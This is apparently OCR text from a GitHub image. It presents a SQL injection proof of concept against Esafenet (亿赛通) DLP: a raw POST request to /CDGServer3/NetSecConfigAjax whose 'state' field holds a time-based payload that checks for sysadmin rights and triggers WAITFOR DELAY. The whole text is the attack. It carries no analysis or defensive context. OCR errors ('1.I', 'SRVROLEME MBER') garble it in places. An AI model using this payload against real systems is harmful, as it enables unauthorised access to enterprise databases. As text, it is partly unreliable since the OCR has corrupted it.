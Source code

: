 # 亿赛通DLP注入

POST /CDGServer3/NetSecConfigAjax;Service HTTP/1.I
Content-Type: application/x-www-form-urlencoded
command=updateNetSec&state=123';if
(select IS SRVROLEME MBER('sysadmin'))=I WAITFOR DELAY
0:0:5'--